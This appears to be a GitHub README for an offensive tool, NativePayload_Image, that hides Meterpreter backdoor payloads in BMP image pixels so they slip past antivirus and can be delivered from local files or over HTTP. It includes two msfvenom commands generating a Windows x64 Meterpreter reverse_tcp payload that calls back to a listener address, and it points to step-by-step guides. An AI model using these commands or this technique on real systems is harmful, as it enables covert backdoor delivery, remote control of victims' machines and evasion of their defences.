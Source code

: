 # NativePayload_Image
Transferring Backdoor Payloads with BMP Image Pixels also Bypassing AVS
with this tool you can Make and Modify Bitmap files for Injecting Meterpreter payload to file also you can use this tool like backdoor for Getting Meterpreter Session by Local Bitmap Files or With Downloading Bitmap Files by Url  (HTTP Traffic).

for more information and using tool "NativePayload_Image.exe" Step by Step Please visit one of these links :
         link: https://www.peerlyst.com/posts/transferring-backdoor-payloads-with-bmp-image-pixels-damon-mohammadbagher 
         , link: https://www.linkedin.com/pulse/transferring-backdoor-payloads-bmp-image-pixels-damon-mohammadbagher
   
   C# Code : NativePayload_Image.exe  ,  Published by Damon Mohammadbagher
   
        /// .Net Framework 2.0 , 3.5 and 4.0 only supported
        /// .Net Framework 4.5 and 4.6 Not Supported ;O
        
        /// Windows 2008 R2 tested with BMP Format only .
        /// Note : tested and worked by MS Paint for Viewing bmp files only.
        
        /// in kali linux you can use "hexeditor" command and in windows you can use "Hex editor NEO".
        /// for meterpreter payload
        /// msfvenom --platfoem windows --arch x86_64 -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.2 -f c > payload.txt
        /// msfvenom --platfoem windows --arch x86_64 -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.2 -f num > payload.txt 
        
        
        for more information and using tool "NativePayload_Image.exe" Step by Step Please visit one of these links :
        1. link: https://www.peerlyst.com/posts/transferring-backdoor-payloads-with-bmp-image-pixels-damon-mohammadbagher
        2. link: https://www.linkedin.com/pulse/transferring-backdoor-payloads-bmp-image-pixels-damon-mohammadbagher
        
<p><a href="https://hits.seeyoufarm.com"><img src="https://hits.seeyoufarm.com/api/count/incr/badge.svg?url=https://github.com/DamonMohammadbagher/NativePayload_Image"/></a></p>
       
